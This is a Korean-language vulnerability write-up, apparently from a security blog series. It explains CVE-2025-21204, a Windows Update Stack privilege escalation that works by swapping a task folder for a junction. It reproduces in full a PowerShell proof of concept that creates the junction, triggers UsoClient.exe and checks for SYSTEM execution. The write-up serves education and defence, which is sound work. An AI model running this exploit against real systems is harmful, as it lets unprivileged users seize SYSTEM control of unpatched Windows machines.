 ```yaml
---
title: "[하루한줄] CVE-2025-21204: Windows Update Stack의 Improper Link Following으로 인한 Privilege Escalation"
author: pwndorei
tags: [pwndorei, Windows, LPE, Link Following, Symbolic Link]
categories: [1day1line]
date: 2025-04-17 19:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://cyberdom.blog/abusing-the-windows-update-stack-to-gain-system-access-cve-2025-21204/

## Target

- 2025년 4월 업데이트 이전의 Update Stack을 사용하는 Windows
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21204/

## Explain

CVE-2025-21204는 Windows 업데이트 스택에서 발생하는 로컬 권한 상승 취약점으로 `MoUsoCoreWorker.exe`와 `UsoClient.exe` 같은 SYSTEM 권한의 프로세스들에 의해 업데이트가 이루어지는 과정에서 발생합니다. 업데이트 과정에서 SYSTEM 권한의 프로세스에 의해 `C:\ProgramData\Microsoft\UpdateStack\Tasks` 경로에 존재하는 스크립트나 바이너리가 실행되는데 이때 해당 폴더의 권한이 잘못 설정되어 있어 공격자가 폴더를 삭제하고 페이로드가 위치한 폴더의 정션으로 대체할 수 있고 따라서 아래와 같은 과정을 거쳐 권한 상승이 이루어질 수 있습니다.

1. 공격자가 컨트롤할 수 있는 경로에 파워쉘 스크립트 등의 페이로드를 위치시킨다.
2. `C:\ProgramData\Microsoft\UpdateStack\Tasks`를 삭제하고 1.에서 페이로드를 생성한 경로에 연결된 정션으로 대체한다.
3. 예약된 작업에 의해 혹은 직접 업데이트를 트리거해서 `UsoClient.exe`, `MoUsoCoreWorker.exe`, `TiWorker.exe`와 같은 프로세스를 생성한다.
4. 생성된 프로세스가 페이로드를 실행하면서 권한 상승이 이루어진다.

아래는 이와 같은 동작을 하는 파워쉘로 작성된 [PoC](https://raw.githubusercontent.com/eshlomo1/CloudSec/refs/heads/main/Attacking%20the%20Cloud/CVE-2025-21204/Exploit-CVE2025-UpdateStackLPE-NonAdmin.ps1)로 시스템 권한으로 파일을 생성해서 권한 상승이 이루어졌음을 보입니다.

```powershell
<#
.SYNOPSIS
    CVE-2025-21204 exploit simulation for non-admin users via junction-based path hijack.

.DESCRIPTION
    Drops a bait payload in a user-controlled directory, creates a junction to hijack the Update Stack path,
    and triggers the update process to test if SYSTEM accesses the payload.
    The script provide the poc that allows to run this actions. 

.AUTHOR
    Elli Shlomo

#>

# Paths
$trapPath      = "$env:APPDATA\Microsoft\UpdateStack\Tasks"
$updateStackRealPath = "C:\ProgramData\Microsoft\UpdateStack\Tasks"
$payloadPath   = "$trapPath\UpdateStackAgent.dll"
$proofPath     = "C:\Users\Public\cve2025-proof.log"
$logPath       = "$env:APPDATA\CVE2025\simulation.log"
$evidencePath  = "$env:APPDATA\CVE2025\evidence.txt"
$verdictPath   = "$env:APPDATA\CVE2025\vulnerable.txt"
$verboseLog    = "$env:TEMP\cve2025-verbose.log"

# Intro
Write-Host "`n[*] CVE-2025-21204 Exploit Simulation (Non-Admin)"
Write-Host "[*] Trap directory       : $trapPath"
Write-Host "[*] Payload DLL path     : $payloadPath"
Write-Host "[*] SYSTEM proof file    : $proofPath"
Write-Host "[*] Simulation log       : $logPath"
Write-Host "[*] Evidence file        : $evidencePath"
Write-Host "[*] Verdict result       : $verdictPath"
Write-Host "[*] Verbose transcript   : $verboseLog`n"

# Start transcript
Start-Transcript -Path $verboseLog -Force

# Ensure directories exist
Write-Host "[*] Creating necessary directories..."
New-Item -Path $trapPath -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-Null
New-Item -Path (Split-Path $logPath) -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-Null
Write-Host "[+] Directories ready.`n"

# Payload content
$payload = @"
Payload executed by SYSTEM at: $(Get-Date)
"@

# Write bait payload
Write-Host "[*] Writing payload to: $payloadPath"
$payload | Out-File -FilePath $payloadPath -Encoding ASCII
$payload | Out-File -FilePath $proofPath -Append
Write-Host "[+] Payload written.`n"

# Simulation metadata log
$log = @"
CVE-2025-21204 Exploit Simulation
-------------------------------------
Date         : $(Get-Date)
Payload File : $payloadPath
Hijack Path  : $updateStackRealPath
Proof File   : $proofPath
"@
Set-Content -Path $logPath -Value $log -Encoding UTF8 -Force
Write-Host "[+] Simulation metadata saved.`n"

# Attempt junction creation (non-admin safe)
Write-Host "[*] Attempting junction (no admin)..."
if (-not (Test-Path $updateStackRealPath)) {
    try {
        $cmd = "cmd.exe /c mklink /J `"$updateStackRealPath`" `"$trapPath`""
        Start-Process -FilePath "cmd.exe" -ArgumentList "/c mklink /J `"$updateStackRealPath`" `"$trapPath`"" -NoNewWindow -Wait
        Write-Host "[+] Junction created: $updateStackRealPath → $trapPath"
    } catch {
        Write-Host "[-] Failed to create junction: $_"
    }
} else {
    Write-Host "[!] Target path already exists: $updateStackRealPath"
    Write-Host "[-] Cannot create junction unless folder is removed by SYSTEM update cleanup."
}
Write-Host ""

# Trigger update
Write-Host "[*] Triggering UsoClient.exe (StartScan)..."
try {
    Start-Process UsoClient.exe -ArgumentList StartScan -WindowStyle Hidden
    Write-Host "[+] UsoClient.exe started.`n"
} catch {
    Write-Host "[-] Failed to trigger UsoClient.exe: $_"
}

# Monitor for SYSTEM process
Write-Host "[*] Monitoring for SYSTEM process MoUsoCoreWorker.exe..."
$found = $false
for ($i = 1; $i -le 6; $i++) {
    Start-Sleep -Seconds 5
    Write-Host "[=] Attempt ${i}: Checking..."
    if (Get-Process -Name "MoUsoCoreWorker" -ErrorAction SilentlyContinue) {
        Write-Host "[!] SYSTEM process detected: MoUsoCoreWorker.exe"
        $found = $true
        break
    }
}
Start-Sleep -Seconds 5

# Check for success
Write-Host "`n[*] Analyzing payload execution..."
if (Test-Path $proofPath) {
    $owner = (Get-Acl $proofPath).Owner
    $timestamp = (Get-Item $proofPath).LastWriteTime
    $details = @"
[+] Exploit successful
Payload executed as: $owner
Last Modified: $timestamp
"@
    Set-Content -Path $verdictPath -Value $true
    Write-Host "[✓] SUCCESS: SYSTEM likely accessed the payload."
} else {
    $details = @"
[!] Exploit failed
No proof file found.
Time: $(Get-Date)
"@
    Set-Content -Path $verdictPath -Value $false
    Write-Host "[✗] FAILURE: Payload was not executed by SYSTEM."
}

# Save evidence
Set-Content -Path $evidencePath -Value $details -Encoding UTF8
Write-Host "[*] Forensic evidence saved: $evidencePath"

# End
Stop-Transcript
Write-Host "`n[✓] Simulation complete. See verbose log: $verboseLog`n"
```

해당 취약점이 패치된 2025년 4월 업데이트에서는 이러한 공격에 대한 완화 조치로 공격에 사용될 수 있는 `C:\inetpub` 등의 폴더를 미리 생성하는 것으로 기본 ACL을 적용해서 link following 공격에 사용될 수 없게 만들었습니다.